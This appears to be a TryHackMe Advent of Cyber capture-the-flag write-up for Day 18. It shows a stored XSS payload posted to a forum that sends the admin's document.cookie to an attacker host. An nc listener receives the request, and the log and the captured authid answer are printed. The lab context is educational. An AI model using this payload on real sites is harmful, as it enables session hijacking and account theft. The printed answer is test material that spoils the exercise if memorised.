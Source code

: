 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 18
## What is the admin's `authid` cookie value?
1. Sign-up to the forum.
2. Sign-in to the forum.
3. Post a comment with this HTML/JavaScript code:
```html
</p><script>window.location = 'http://<OPENVPN_IP>/page?param=' + document.cookie </script><p>
```
4. Start an `nc` listener and wait until you get a response:
```
$ sudo nc -lvnp 80
$  sudo nc -lvnp 80
[sudo] password for applegamer22: 
Connection from 10.10.109.123:43376
GET /page?param=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.4.32.172
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```

**Answer**: `2564799a4e6689972f6d9e1c7b406f87065cbf65`